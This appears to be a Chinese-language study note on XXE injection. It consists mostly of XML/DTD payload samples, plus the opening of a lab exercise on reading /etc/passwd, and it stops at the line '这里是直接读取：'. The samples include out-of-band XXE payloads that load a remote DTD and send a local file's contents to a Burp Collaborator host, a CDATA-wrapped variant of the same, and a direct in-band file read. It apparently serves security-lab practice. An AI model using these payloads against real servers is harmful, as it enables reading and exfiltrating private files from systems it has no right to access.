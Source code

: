[TOC]

#### 0. samples

```xml-dtd
POST:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ 
<!ENTITY % file SYSTEM "file:///C:/Users/asus/Desktop/1.txt">
<!ENTITY % remote SYSTEM "http://127.0.0.1:80/1.dtd">
%remote;%init;%send;
]>

1.dtd:
<!ENTITY % init "<!ENTITY % send SYSTEM 'http://3eisdrnsxq6zrx8xz2fskb7gy74zso.burpcollaborator.net?p=%file;'>">
```

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY xxe SYSTEM "file:///C:/Users/asus/Desktop/1.txt">
]>
<root>&xxe;</root>
```

```xml-dtd
POST:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "file:///C:/Users/asus/Desktop/1.txt">
<!ENTITY % end "]]>">
<!ENTITY % remote SYSTEM "http://192.168.101.6:80/1.dtd">
%remote;%init;%send;
]>

1.dtd：
<!ENTITY % init "<!ENTITY &#37; send SYSTEM 'http://3eisdrnsxq6zrx8xz2fskb7gy74zso.burpcollaborator.net?p=%start;%file;%end;'>">

此时1.txt的文件内容为：
aefasf'<!aew
```

#### 1. Exploiting XXE using external entities to retrieve files

> This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
>
> To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

这里是直接读取：
